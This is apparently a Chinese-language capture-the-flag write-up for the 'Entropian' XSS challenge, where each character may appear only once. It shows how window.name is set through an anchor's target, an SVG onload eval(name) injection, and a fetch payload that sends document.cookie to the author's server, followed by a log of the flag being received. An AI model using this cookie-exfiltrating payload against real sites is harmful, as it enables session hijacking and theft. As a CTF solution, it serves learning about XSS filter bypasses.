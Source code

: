# Entropian

(賽中未解)

這題限制所有字元只能出現最多一次

然後要偷`document.cookie`

由於`<script src="xxx"></script>`太多重複字元

故很容易想到要用`eval()`之類的方式，去跑`location.hash`, `windwos.name`, ...之類的

最後發現`name`可以透過`<a>`的`target`來控制

所以exploit流程就是:

1. 用`<iframe>`引入我們的domain
2. 在我們domain首頁放一個`<a>`，把`target`設成我們的payload，`href`設成`<SVG/ONLoAD=eval(name)>` (記得encoding一下)
3. 再讓bot點擊這個link
4. 最後bot會執行我們的payload

<br>

細節如下:

kaibro.tw/index.html:

```
<a href="http://entropian-01.pwn.beer:3001/entropian?input=%3CSVG/ONLoAD=eval(n%26%2397;m\u{65})%3E" target="fetch('http://kaibro.tw/?'+document.cookie)" id="x">aaa</a>

<script>
document.getElementById('x').click();
</script>
```

最後把以下連結發給bot即可收到flag:

http://entropian-01.pwn.beer:3001/entropian?input=<IfrAme%20sRc=\/kaib%26%23x72;o.tw>

```
34.252.66.50 - - [24/May/2019:07:00:40 +0000] "GET /?flag=sctf{1_th0ught_h1GH_3ntr0py_w@s_sec00re?} HTTP/1.1" 200 568 "http://entropian-01.pwn.beer:3001/entropian?input=%3CSVG/ONLoAD=eval(n%26%2397;m\\u{65})%3E" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/76.0.3786.0 Safari/537.36"
```
